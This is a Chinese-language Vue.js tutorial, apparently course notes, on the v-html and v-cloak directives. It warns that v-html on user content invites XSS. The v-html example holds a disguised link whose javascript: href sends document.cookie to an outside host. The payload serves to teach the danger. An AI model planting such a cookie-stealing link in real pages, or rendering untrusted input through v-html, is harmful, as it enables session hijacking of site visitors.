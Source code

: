 1.作用：向指定节点中渲染包含html结构的内容。

 2.与插值语法的区别：

​         (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。

​         (2).v-html可以识别html结构。

3.严重注意：v-html有安全性问题！！！！

​         (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​         (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<body>
    <div id="root">
		<div>你好，{{name}}</div>
		<div v-html="str"></div>
		<div v-html="str2"></div>
	</div>
    <script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</body>
```

### v-cloak指令

v-cloak指令（没有值）：

​      1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。

​      2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<body>
    <div id="root">
		<h2 v-cloak>{{name}}</h2>
	</div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js">		     </script>
    <script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</body>
```
